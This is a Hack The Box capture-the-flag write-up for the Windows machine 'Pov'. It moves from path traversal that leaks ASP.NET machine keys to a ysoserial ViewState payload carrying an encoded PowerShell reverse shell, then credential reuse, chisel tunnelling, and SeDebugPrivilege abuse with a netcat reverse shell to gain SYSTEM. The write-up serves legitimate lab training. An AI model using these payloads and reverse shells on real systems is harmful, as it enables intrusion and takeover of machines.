<h1>HTB: Pov</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/Pov)          |
| Difficulty | Medium                                                           |
| OS         | Windows                                                          |
| Author     | ByteFragment                                                     |
| Date       | July 13th 2026                                                   |

--- 

<h2>Reconnaissance</h2>

<h3>NMAP</h3>

Port scanning the target using nmap via the command:

```
sudo nmap -sT -sV -T4 10.129.35.230 -oN nmap
```

This gave me the open tcp ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap`.

From the nmap results we can see that the target machine is running an http server on port 80:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-13 12:11 PDT
Nmap scan report for 10.129.35.230
Host is up (0.083s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

<h3>Web Recon</h3>

The first thing we are going to do is add `10.129.35.230 pov.htb` to our `\etc\hosts` file.

Visiting the webpage we are greeted with a homepage for a cybersecurity business:



Scrolling down to the bottom of the page we see a reference to the subdomain `dev.pov.htb`:



Let's add that to our `/etc/hosts` file on our attack machine and attempt to visit the page:



Visiting the page we are greeted with a portfolio page for `Stephen Fitz`:



<h2>Enumeration</h2>

Using `Wappalyzer` we can see that the webpage is using the `Microsoft ASP.NET` web framework:



Scrolling down a bit we can see that there is a `Download CV` button that when clicked downloads Stephen Fitz's CV:





Let's click the button again but this time watching the network traffic using the browser's dev tools:



From this we can see that when the button is clicked it sends a single `POST` request with the file to download being specified in the `file:` POST parameter seen on the bottom right.

So what happens if we alter this parameter to a different file name?

For this let's switch to `BurpSuite`.

<h3>BurpSuite</h3>

In the Burpsuite browser with intercept turned on we will again click the `Download CV` button. 



Burp will intercept this request before it is sent to the webserver allowing us to alter its contents:



Let's send this request to the repeater tab which we can do by right clicking on the intercepted request and clicking `Send to Repeater`, this will allow us to repeatedly send our altered packets without having to intercept new ones every time:



Let's alter the file name and see what happens:



Altering the `file` parameter in the request from `cv.pdf` to `test.pdf` we see that the server returns a `302` error which " indicates that the requested resource has been temporarily moved to the URL in the Location header." - [Mozilla](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Status/302)

Let's try changing it to a file we know exists which is `default.aspx` i.e., the main webpage:



Doing so results in a successful retrieval of the main default.aspx page so let's try and retrieve something more interesting such as the `web.config` file.

Changing the file parameter to `web.config` results in a 302 error however if we change it to `..\web.config` the file is successfully returned to us giving us access to the `decryptionkey` and `validationkey`:



This additionally tells us that the target framework is 4.5.
<h2>Exploitation</h2>

[HackTricks](https://hacktricks.wiki/en/pentesting-web/deserialization/exploiting-__viewstate-knowing-the-secret.html#forging-the-payload-with-ysoserialnet) has a great resource on how to exploit `__VIEWSTATE` knowing the secrets we just obtained in the `web.config` file.

The page references a payload generation tool called [ysoserial](https://github.com/pwntester/ysoserial.net) which is "A proof-of-concept tool for generating payloads that exploit unsafe .NET object deserialization", so let's try and use this!

<h3>ysoserial</h3>
The first thing we will do is double check the .NET version as the ysoserial command differs for .NET versions 4.0 and below and 4.5 and above. 

Looking back at the web.config response we can see the server is using `4.5` so we will be using the 4.5 and below command.




We obtained the `validationalg`, `validationkey`, `decryptionalg`, and `decryptionkey` from the `web.config` file earlier so we simply fill those values in.

So after spinning up a Windows 11 vm and downloading the `ysoserial.exe` executable we are ready to run the executable and try and gain a reverse shell using the powershell#3(base64) rev shell from [RevShells](https://www.revshells.com/)

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties \
  -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA1AC4AMQA2ACIALAAxADIAMwA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==" \
  --path="/content/default.aspx" \
  --apppath="/" \
  --validationalg="*******" \
  --validationkey="*******" \
  --decryptionalg="*******" \
  --decryptionkey="*******"
```

This will give our exploit that we will replace the current `_VIEWSTATE` value with in our BurpSuite repeater tab and hopefully gain a reverse shell. But first we need to set up a `netcat` listener to catch the reverse shell:

```
nv -lvnp 1234
```

Then we are all set to send the POST request in the Burp repeater that contains our payload, then we check our listener to see we do indeed have a reverse shell as the user `sfitz`!



<h2>Lateral Movement</h2>

The user flag is not in sfitz's desktop folder so we will need to enumerate further. 

In `sfitz's` Documents folder we find a file called `connections.xml` that contains the username and password for the user `alaading`. Unfortunately the password is encrypted.

The Windows Privilege Escalation module thankfully provides us with a series of commands that we can adapt and use to obtain a clear-text password!



We will use this to run powershell commands as `alaading` and thankfully Github user [Cipher-Sheild](https://github.com/Cipher-Sheild/pentesting-notes/blob/main/windows-privilege-escalation/runas.md) has a great post on how to do this!

We simply need to run the following commands:

```
$password = ConvertTo-SecureString "f8gQ8fynP44ek1m3" -AsPlainText -Force
$username = "pov\alaading"
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
Invoke-Command -computername pov -Credential $cred -scriptblock {whoami /all}
```



We can replace the command with 

```
type C:\Users\alaading\Desktop\user.txt
```

and gain the user flag!

While it is nice to have the ability to run commands as alaading it is fairly cumbersome so let's try and get a shell as alaading!

To do so we will use [chisel](https://github.com/jpillora/chisel) to create a socks5 proxy so that we can gain a shell using `evil-winrm`.
<b>
For chisel we will need both the chisel.exe windows executable for the Windows target machine and a chisel ELF linux binary.
</b>

<h3>Chisel</h3>
Let's first get chisel transferred over to the target machine by setting up a python http server on our target machine in the directory that contains chisel.exe:

```
sudo python3 -m http.server 80
```

Then on the target machine we run:

```
wget http://10.10.15.16/chisel.exe -o chisel.exe
```

It is important to run the wget command in a directory where the user has the ability to write files.

Running this command in the `C:\Users\sfitz\music` folder successfully retrieves the file.

Now let's start our chisel server on our attack machine using the command:

```
./chisel server --reverse -p 8000
```

Then the chisel client on the target machine:

```
.\chisel.exe client 10.10.15.16:8000 R:sock
```

After running the command we can check our chisel server and confirm the connection:



<h3>Evil-WinRM</h3>

Now let's login using evil-winrm:

```
proxychains -q evil-winrm -i pov.htb -u alaading -p ************
```



<h2>Privilege Escalation</h2>

Running the `whoami /priv` command we can see that alaading has the `SeDebugPrivilege` which we can exploit to gain SYSTEM!

<h3>psgetsys.ps1</h3>

We first need to upload this [POC](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) script to the target machine, thankfully evil-winrm makes this very easy as we simply need to make sure that the script is in the same dir that we were in when we ran the evil-winrm login and then run `upload psgetsys.ps1` in the evil-winrm terminal.

The HTB SeDebugPrivilege Windows Privilege Escalation module assumes that we have rdp access into the machine and thus uses this psgetsys.ps1 script to launch a new cmd window. Since we do not have GUI access to the machine we will have to alter the attack slightly by using it to gain a reverse shell as SYSTEM thus we need to upload `nc64.exe` onto the machine using the same method as we did before.

To use this exploit we need to find the PID of the `winlogon.exe` executable which we can find using the `ps` command:



In our case the PID is `560`.

So let's first set up a netcat listener:

```
nc -lvnp 9001
```

Looking at the second line of the script we see the usage so we can simply alter it for our purpose:

```
ipmo .\psgetsys.ps1 ImpersonateFromParentPid -ppid 560 -command "c:\windows\system32\cmd.exe" -cmdargs "/c c:\users\alaading\Documents\nc64.exe 10.10.15.16 9001 -e powershell"
```

Checking our listener we see that we do indeed have a reverse shell as SYSTEM:

